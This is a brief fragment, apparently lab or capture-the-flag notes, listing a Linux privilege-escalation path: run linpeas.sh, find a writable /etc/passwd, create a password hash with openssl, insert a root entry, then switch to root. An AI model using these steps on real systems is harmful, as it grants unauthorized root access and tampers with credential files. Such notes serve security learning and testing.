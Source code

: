 -  \./linpeas\.sh
-  writable /etc/passwd
-  openssl passwd test123
-  nano /etc/passwd
-  root:$HASH$
-  su root:test123
#